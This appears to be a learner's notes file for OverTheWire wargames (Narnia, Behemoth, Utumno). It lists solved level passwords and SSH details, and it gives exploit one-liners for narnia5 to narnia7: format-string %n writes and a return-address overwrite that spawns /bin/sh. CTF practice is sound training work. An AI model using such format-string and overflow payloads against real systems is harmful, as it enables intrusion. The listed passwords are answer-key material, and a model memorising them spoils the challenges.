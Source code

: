 	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	password: 
		-->1: eaa6AjYMBB
		-->2: Zzb6MIyceT
		-->3: 8SyQ2wyEDU
		-->4: aKNxxrpDc1 (X understand)
		-->5: 1oCoEkRJSB
		-->6: BAV0SUV0iM
		-->7: YY4F9UaB60
		-->8: 1aBcDgPttG
		-->9: can't do 
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		level5 : ./narnia5 $(python3 -c 'import sys; sys.stdout.buffer.write(b"\xd0\xd5\xff\xff\xd0\xd5\xff\xff%492x%n")')
		level6 : ./narnia6 $(python3 -c 'import sys; sys.stdout.buffer.write(b"AAAAAAAA" + b"\x70\x81\xc4\xf7")') "BBBBBBBB/bin/sh"
		level7 : ./narnia7 $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x08\xd5\xff\xff" + b"%134517531d%2$n")') // decimal value 
## Behemoth : regular vulnerabilities --  common coding mistakes 
	--> buffer overflows, race conditions and privilege escalation
	--> username : behemoth0
	--> password : behemoth0
	--> url : behemoth.labs.overthewire.org
	--> port: 2221 (SSH)
	--> cd /behemoth
	--> cat /etc/behemoth_pass/behemoth1
	
	--> ssh behemoth0@behemoth.labs.overthewire.org -p 2221
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	password: 
		-->1: 8JHFW9vGru
		-->2: 
		-->3: 
		-->4: 
		-->5: 
		-->6: 
		-->7: 
		-->8:
		
end game // is ok // no need learn too many pwn 

## Utumno : 
	--> username : utumno0
	--> password : utumno0
	--> url : utumno.labs.overthewire.org 
	--> port: 2227 (SSH)
	--> /utumno/.
	